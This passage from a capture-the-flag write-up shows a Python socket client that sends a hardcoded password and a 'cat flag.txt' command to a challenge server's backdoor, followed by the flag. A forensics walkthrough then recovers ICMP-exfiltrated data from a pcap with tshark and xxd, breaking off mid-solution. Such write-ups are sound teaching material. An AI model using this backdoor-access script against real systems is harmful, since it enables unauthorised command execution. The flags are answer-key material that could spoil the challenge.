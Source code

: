 #!/usr/bin/env python3

import socket

HOST = '138.68.181.43'  # The server's hostname or IP address
PORT = 30716        # The port used by the server

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    s.sendall(b'e2162a8692df4e158e6fd33d1467dfe0')
    s.sendall(b'1')
    s.sendall(b'command:cat flag.txt')
    data = s.recv(1024)

print(data.decode())

```


**CHTB{b4ckd00r5_4r3_d4nG3r0u5}**

****

# Forensics

## Oldest trick in the book

After analyzing the pcap file using wireshark, it was possible to find many ICMP packets.

<p align="center">
  <img width=800 src="assets/images/Wireshark.png"
</p>



There is data beeing transmited here using .

This is called **ICMP Exfiltration**.

Also we can see the data is repeated so, lets rebuild the file without the repeated bytes.

```
$ tshark -r older_trick.pcap -Y 'icmp.type == 8' -T fields -e data | sed 's/^.\{48\}//' | sed 's/.\{16\}$//' | tr -d '\n' | xxd -r -p - exportFile
```

Lets find out what type of file this is...

```
$ file exportFile
```

<p align="center">
  <img width=800 src="assets/images/FileType.png"
</p>

```
$ mv exportFile exportFile.zip
$ unzip exportFile.zip
```

Now I was thinking, "thats it!" but there is still one step to go.

After opening the file I found nothing related with a flag, but instead what seems to be some kind of stored data.

<p align="center">
```
